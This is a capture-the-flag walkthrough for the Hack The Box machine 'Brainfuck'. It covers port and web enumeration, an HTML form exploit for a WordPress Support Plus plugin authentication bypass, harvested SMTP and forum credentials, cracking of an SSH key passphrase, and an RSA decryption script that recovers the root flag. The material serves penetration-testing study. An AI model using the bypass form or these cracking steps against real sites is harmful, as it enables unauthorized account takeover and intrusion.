

**Start 09:16 22-08**

---
```
10.10.10.17
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.17    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 08:16 IST
Nmap scan report for 10.10.10.17
Host is up (0.016s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
110/tcp open  pop3
143/tcp open  imap
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 4.79 seconds
```

```bash
Nmap scan report for 10.10.10.17
Host is up, received syn-ack (0.017s latency).
Scanned at 2024-08-22 08:17:15 IST for 104s
Not shown: 65530 filtered tcp ports (no-response)
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUvFkWE1DxJj4OsU4DiVLjkxYV2a9pSlMS/78hpx0IejJaFilgNb+RFCyfyhIw5NvsZB6hZiNL0vPDh+MscPd75heIIgx9mczfamsrA2KODdkdgUJPCBWUnF9/VhYQhJpGvo4f6lAwLz7wnmcjhiXencMNkZcweADi5aK0Xp6iFxYcwx6+qy0891gQ5TnVVazkDJNA+QMUamxJRm1tQN5dp/+TeBecWJH2AxQFXsM4wPkIFaE0GsKvYDmGyfy1YL/Gn5IxEqVrhIEYkDH4BQsbvORNueOtJKHoys7EhPF+STpx6ZAXS6AXhS/nJMz6EvubzeGqfBOaDIZN9u5JuCdf
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCJcOJZuuBlw9xDXy+VPpezMomPfySGOjABaxw02cmRifvzWE57mh1hlQD6z44IF1lsuW9E2NNH4xB4d8U0O5b0=
|   256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOokdEAUqLEqEuY1CHNJ2xaDU+L+/0qb3XZO8UIZfrju
25/tcp  open  smtp     syn-ack Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
110/tcp open  pop3     syn-ack Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) PIPELINING USER AUTH-RESP-CODE UIDL CAPA RESP-CODES TOP
143/tcp open  imap     syn-ack Dovecot imapd
|_imap-capabilities: ID have more listed Pre-login post-login SASL-IR OK IDLE capabilities ENABLE IMAP4rev1 AUTH=PLAINA0001 LOGIN-REFERRALS LITERAL+
443/tcp open  ssl/http syn-ack nginx 1.10.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=orestis@brainfuck.htb/localityName=Athens/organizationalUnitName=IT
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Issuer: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=orestis@brainfuck.htb/localityName=Athens/organizationalUnitName=IT
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-13T11:19:29
| Not valid after:  2027-04-11T11:19:29
| MD5:   cbf1:6899:96aa:f7a0:0565:0fc0:9491:7f20
| SHA-1: f448:e798:a817:5580:879c:8fb8:ef0e:2d3d:c656:cb66
| http-methods: 
|_  Supported Methods: GET HEAD
|_ssl-date: TLS randomness does not represent time
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel

</SNIP>

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.02 seconds
```

From the above scan we find a multitude of open ports, namely `22, 25, 110, 143, 443`.
It appears that `443` is running an  `nginx 1.10.0 https server`. I've added `brainfuck.htb sup3rs3cr3t.brainfuck.htb` to my `/etc/hosts` file and got to exploring.

We also notice and email address: `orestis@brainfuck.htb`


==Dirsearch==
While the website was loading I enumerated the host in order to find other endpoints and this was the result:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u https://brainfuck.htb/ -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /home/kali/reports/https_brainfuck.htb/__24-08-22_08-24-55.txt

Target: https://brainfuck.htb/

[08:24:55] Starting: 
[08:25:31] 301 -    0B  - /index.php  ->  https://brainfuck.htb/            
[08:25:34] 200 -   19KB - /license.txt                                      
[08:25:47] 200 -    7KB - /readme.html                                      
[08:25:59] 200 -    1B  - /wp-admin/admin-ajax.php                          
[08:25:59] 301 -  194B  - /wp-admin  ->  https://brainfuck.htb/wp-admin/    
[08:26:00] 500 -    4KB - /wp-admin/setup-config.php                        
[08:26:00] 200 -    1KB - /wp-admin/install.php                             
[08:26:00] 200 -    0B  - /wp-config.php                                    
[08:26:00] 301 -  194B  - /wp-content  ->  https://brainfuck.htb/wp-content/
[08:26:00] 200 -    0B  - /wp-content/                                      
[08:26:00] 200 -   69B  - /wp-content/plugins/akismet/akismet.php           
[08:26:00] 500 -    0B  - /wp-content/plugins/hello.php                     
[08:26:00] 200 -    0B  - /wp-cron.php                                      
[08:26:00] 301 -  194B  - /wp-includes  ->  https://brainfuck.htb/wp-includes/
[08:26:00] 500 -    0B  - /wp-includes/rss-functions.php                    
[08:26:00] 302 -    0B  - /wp-signup.php  ->  https://brainfuck.htb/wp-login.php?action=register
[08:26:00] 200 -    2KB - /wp-login.php                                     
[08:26:01] 405 -   42B  - /xmlrpc.php                                       
[08:26:07] 302 -    0B  - /wp-admin/  ->  https://brainfuck.htb/wp-login.php?redirect_to=https%3A%2F%2Fbrainfuck.htb%2Fwp-admin%2F&reauth=1

Task Completed 
```

We see some interesting endpoints such as `/readme.html` and `/license.txt`, along with `/wp-config.php`.


## 443/TCP - HTTPS

After having enumerated the endpoints it is now time to check out the website.


It is just a standard `Wordpress` website with nothing notable, let's check out the previously found endpoints.

==/readme.html==
This endpoint showed nothing of great interest apart from the `version`:


We now know that the website is running on `Wordpress 4.7`. Further down it also mentions some system requirements which might come in handy:


==/license.txt==
Nothing of interest.

==/wp-login.php==
Here we find a login screen, I looked up some default credentials and decided to try them all out.


Unfortunately none of them worked which meant we will have to keep looking for other options.
Here I decided to run a `wpscan` to check out what else we can find since I won't be checking every directory (simply a waste of time):

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

From this scan I found some interesting information:

```bash
[i] Plugin(s) Identified:

[+] wp-support-plus-responsive-ticket-system
 | Location: https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/
 | Last Updated: 2019-09-03T07:57:00.000Z
 | [!] The version is out of date, the latest version is 9.1.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.1.3 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
```

Here we find that it's running a plugin called `wp-support-plus-responsive-ticket-system` of version `7.1.3`. I then went on to check for exploits for this version and found the following:


This looks very promising and should help us out, but before diving into it I will check out the other `subdomain` which was mentioned in the `SSL certificate`.


==sup3rs3cr3t.brainfuck.htb==
When I went to this subdomain I got to see this page:


When clicking on the `Development` forum I see a conversation between 2 users `admin` and `orestis`. I then remembered that I have previously found `orestis`'s email inside the `SSL cert`.
Apart from this for now I couldn't find anything interesting.

==Exploit==
I trace back to the exploit I found above and give it a try, it's supposed to give me the ability to log in as any user without knowing the password because of incorrect usage of `wp_set_auth_cookie()`. 

The proof of concept shows a form which is inserted and upon the reload of the page it will login. I have modified it to my needs and created a payload called `exploit.html`.

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="orestis@brainfuck.htb">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

I then ran a `python server` in order to upload the script:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

I then went to `localhost:80/exploit.html` and this screen showed up:


I then pressed `Login`, before I headed to `/wp-admin` I shut down my `python server`. After the page loaded I was logged in.


After I was logged in I went to `Settings` -> `Easy WP SMTP` where I found some juicy details.


I found some credentials for the `SMTP server` on port `25`. Since I can't copy over the password I chose to `view page source` and got the plaintext password:


```bash
# SMTP creds

orestis
kHGuERB29DNiNE
```

Now we have multiple ways of accessing the mailing server since `25, 110 and 143` are all open. In this instance I'll hop on `143 - IMAP`.

## 143/TCP - IMAP

==logging in==
We log in using `telnet brainfuck.htb port`:

```bash
telnet brainfuck.htb 143
a1 LOGIN orestis kHGuERB29DNiNE
a2 LIST "" "*"
a3 EXAMINE INBOX
a4 FETCH 1 BODY[]
a5 FETCH 2 BODY[]
```

```bash
a5 FETCH 2 BODY[]
* 2 FETCH (BODY[] {514}
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
        id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)

Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
)
a5 OK Fetch completed (0.001 + 0.000 secs).
```

We now got the credentials to the `super secret forum`.


## sup3rs3cr3t forum

We move back to the forum once again and log in with our newly found credentials.


While I was checking out the website I found the following under `/2-ssh-access`


Apparently `SSH` is now not available through the use of passwords, but instead only with `RSA-keys`. Then in `/3-key` I found some what at first appears to be complete gibberish:


It is most certainly some sort of `ciphertext` so I looked up a `decipher` website and stumbled upon [this one](https://www.dcode.fr/cipher-identifier). I then tried to decipher the texts. The key takeaway here was that `Orestis` kept using the same line in the last sentence in the `/ssh-access` thread. Using that logic we can input the sentence `Orestis - Hacking for fun and profit` to speed up the process. 

After a bit of fucking around I found the `cipher KEY` to be `fuckmybrain`. Now that we know that we can successfully decode the messages:


After decrypting all of them this one came up most relevant to us:



```
There you go you stupid fuck, I hope you remember your key password because I dont :)  
  
https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
```

And then the last message mentioned `Orestis` going to brute force it. We head to the link and download the `RSA` key.

Since the `RSA` key is encrypted we'll have to `ssh2john` the key to decrypt it.

```bash
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```bash
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)     
1g 0:00:00:03 DONE (2024-08-22 10:26) 0.2801g/s 3490Kp/s 3490Kc/s 3490KC/s 3prash0..3pornuthin
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Now we've got the `SSH` passphrase to login

```
3poulakia!
```


## 22/TCP - SSH

Since we cannot log into `SSH` using a password, we will have to use another way:

```bash
ssh -i id_rsa orestis@brainfuck.htb
```

We then enter the passphrase previously cracked and we get access:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh -i id_rsa orestis@brainfuck.htb
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Mon Oct  3 19:41:38 2022 from 10.10.14.23
orestis@brainfuck:~$
```

Now we can get the `user` flag in the `/home/orestis/user.txt` directory.


## Flags

==user.txt==
As mentioned above, go to that directory:

```bash
orestis@brainfuck:~$ cat /home/orestis/user.txt
2c11cfbc5b959f73ac15a3310bd097c9
```

==root.txt==
This time there will be no privilege escalation but instead we'll have to decrypt some files. 


If we take a look at the above screenshot we see that there is an encrypting file and an output. 

```bash
orestis@brainfuck:~$ cat encrypt.sage 
nbits = 1024

password = open("/root/root.txt").read().strip()
enc_pass = open("output.txt","w")
debug = open("debug.txt","w")
m = Integer(int(password.encode('hex'),16))

p = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
n = p*q
phi = (p-1)*(q-1)
e = ZZ.random_element(phi)
while gcd(e, phi) != 1:
    e = ZZ.random_element(phi)


c = pow(m, e, n)
enc_pass.write('Encrypted Password: '+str(c)+'\n')
debug.write(str(p)+'\n')
debug.write(str(q)+'\n')
debug.write(str(e)+'\n')
```

```bash
orestis@brainfuck:~$ cat output.txt
Encrypted Password: 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
```

It seems that the `root.txt` flag is being encrypted using this script and then placed within the home directory. Furthermore we see in `debug.txt` that it is writing `primes p and q` as well as the public key `e`.

This means we'll have to decrypt it using a `python script` I found online:

```python
import re

def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m

debug = open("debug.txt","r")
enc_pass = open("output.txt","r")

arr=[]  #arr[0]=p, arr[1]=q, arr[2]=e

for line in debug.readlines():
    line = line.strip()
    arr.append(int(line))
p,q,e = arr

c = re.findall("\d+",enc_pass.read())
c = int(c[0])

n=p*q
tot = (p-1)*(q-1)
d = modinv(e,tot)
m = pow(c,d,n)

root = hex(m)[2:-1].decode('hex')

print root
```

Save this script under `decipher.py` and then run it using `python decipher.py`:

```bash
orestis@brainfuck:~$ nano decipher.py
orestis@brainfuck:~$ python decipher.py 
6efc1a5dbb8904751ce6566a305bb8ef
```


---

**Finished 11:45 22-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
